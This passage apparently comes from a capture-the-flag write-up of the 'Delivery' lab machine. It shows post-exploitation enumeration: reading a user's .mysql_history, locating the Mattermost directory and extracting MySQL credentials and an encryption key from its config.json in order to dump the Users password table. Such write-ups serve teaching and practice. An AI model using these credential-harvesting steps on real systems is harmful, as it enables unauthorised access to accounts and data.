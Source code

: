 What have we in the user directory?

```
maildeliverer@Delivery:~$ ls -lhA
total 5.4M
lrwxrwxrwx 1 root          root             9 Dec 28 07:04 .bash_history -> /dev/null
-rw-r--r-- 1 maildeliverer maildeliverer  220 Dec 26 09:01 .bash_logout
-rw-r--r-- 1 maildeliverer maildeliverer 3.5K Dec 26 09:01 .bashrc
drwx------ 3 maildeliverer maildeliverer 4.0K Dec 28 06:58 .gnupg
-rw------- 1 maildeliverer maildeliverer  230 Jan 26 15:39 .mysql_history
-rw-r--r-- 1 maildeliverer maildeliverer  807 Dec 26 09:01 .profile
-r-------- 1 maildeliverer maildeliverer   33 Jan 26 14:32 user.txt

maildeliverer@Delivery:~$ cat .mysql_history
show databases;
use mattermost;
show tables;
select * from users;
select * from Users;
select Username, Password from Users;
show databases
;
use mattermost
show tables
;
select * from Users;
select Username, Password from Users;
```

Let's find the mattermost install directory it must contains some SQL credentials
where we could use to dump the same table as in our mysql history.

```
maildeliverer@Delivery:~$ find / -name mattermost -type d 2>/dev/null
/opt/mattermost
/var/lib/mysql/mattermost
```

We can find there is a SQL section in the configuration:

```
maildeliverer@Delivery:~$ grep -i sql /opt/mattermost/config/config.json
    "SqlSettings": {
        "DriverName": "mysql",
```

Let's open the file with less, search `SqlSettings`, and see:

```json
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    }
```
